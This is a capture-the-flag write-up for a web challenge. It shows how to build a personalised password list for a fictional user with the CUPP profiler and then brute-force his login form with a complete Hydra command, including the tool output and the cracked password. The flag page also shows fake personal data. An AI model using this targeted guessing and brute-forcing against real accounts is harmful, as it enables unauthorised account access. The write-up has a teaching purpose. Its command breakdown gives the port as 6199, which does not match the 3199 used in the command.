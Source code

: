 # CUPP

## Web: 100 points

## Challenge

Can you get into Lucas' secrets?

[ [Start](http://challenges.laptophackingcoffee.org:3199/aboutme.php?) ]

## Solution

The title CUPP stands for Common User Passwords Profiler. It's a python program available on [Mebus's Github][1]. 

Clone the repo and start up the program. Use `./cupp.py -h` to show the help menu. Use `./cupp.py -i` to enter interactive mode:
```
$ git clone https://github.com/Mebus/cupp.git
$ cd cupp
$ ./cupp.py -i
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)
```

In interactive mode, enter in the details found on Lucas's [About Me][2] page. More detail is better:
```
> First Name: Lucas
> Surname: Endheimer
> Nickname: 
> Birthdate (DDMMYYYY): 27102006


> Partners) name: Becca
> Partners) nickname: Rebecca
> Partners) birthdate (DDMMYYYY): 18112005


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: Lucky
> Company name: Wilson


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: Mitnick    
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: n

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to lucas.txt, counting 2954 words.
[+] Now load your pistolero with lucas.txt and shoot! Good luck!
```

The program creates a word list and saves it to [lucas.txt](lucas.txt). Use this word list to crack Lucas's login page, which he mentions is at [secret.php][3]. 

First find out what POST data is sent via the login page. In Chrome, inspect the login page. Click the **Network** tab then login with `lucas` and `password`. Click on **secret.php** in the left column and take a look at the **Form Data**:
```
username=lucas&password=password&login=Submit
```

The form posts three variables: `username`, `password`, and `login`. The `login` var is set to `Submit` by default. 

Now crack the login using [Hydra][4], a parallelized login cracker which supports numerous protocols to attack. Use `hydra -h` bring up Hydra's help menu that shows command syntax, options, and examples. Here is the simplified syntax used for this challenge:
```
Syntax (simplified):
hydra [-l LOGIN | -L FILE] [-p PASS | -P FILE] [service://server[:PORT][/OPT]]
```

Assume that the username is `lucas` for this search. The Hydra command will look like this:
```
$ hydra -l lucas -P lucas.txt "http-post-form://challenges.laptophackingcoffee.org:3199/secret.php:username=^USER^&password=^PASS^&login=Submit:failed" -V
```

A few key notes about Hydra's syntax:
* `^USER^` is a keyword Hydra uses that is replaced at runtime with the data given in the `-l` or `-L` options. Likewise, `^PASS^` is a keyword replaced with the data in the `-p` or `-P` options. 
* The entire portion containing the `[service://server[:PORT][/OPT]` must be contained in double quotes (`"`).
* The `:failed` portion towards the end of the command is what Hydra looks for to check if the login failed. The word `failed` is from Lucas's failed login page which simply says: "Login failed!"

With all this in mind, the above command breaks down like this:
```
hydra                                   run the Hydra program
-l lucas                                set the login (username) to lucas
-P lucas.txt                            use lucas.txt as the password file
http-post-form://                       use HTTP POST service
challenges.laptophackingcoffee.org      set target server
:6199                                   set target port
/secret.php                             set target webpage
:username=^USER^                        set username var to ^USER^
&password=^PASS^                        set password var to ^PASS^
&login=Submit                           set login var to Submit
:failed                                 set failure text to look for
-V                                      use verbose mode
```

Wait a while. Grab a coffee. View the results:
```
...
[RE-ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Becca_2005" - 559 of 2958 [child 9] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_1" - 560 of 2958 [child 3] (0/4)
[ATTEMPT] target challenges.laptophackingcoffee.org - login "lucas" - pass "Endheimer_7" - 561 of 2958 [child 7] (0/4)
[STATUS] 80.14 tries/min, 561 tries in 00:07h, 2397 to do in 00:30h, 16 active
[3199][http-post-form] host: challenges.laptophackingcoffee.org   login: lucas   password: Becca_2005                                               
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-03 16:45:10
```

The result is a bit buried, but it's there: `login: lucas   password: Becca_2005`. Login with these credentials. Grab the flag:
```
Hi Lucas. Here's your secrets:

SSN: 554-42-2123
Mom's Debit Card: 4450-2234-5531-1138 2/21 471
Flag: LHC{p0wn3dluc45}
Beccas nudes: http://bitly.com/98K8eH
```

## Resources
* https://github.com/Mebus/cupp
* https://tools.kali.org/password-attacks/hydra
* https://www.youtube.com/watch?v=CWo_mjNjrjA


[1]:https://github.com/Mebus/cupp
[2]:http://challenges.laptophackingcoffee.org:3199/aboutme.php
[3]:http://challenges.laptophackingcoffee.org:3199/secret.php
[4]:https://tools.kali.org/password-attacks/hydra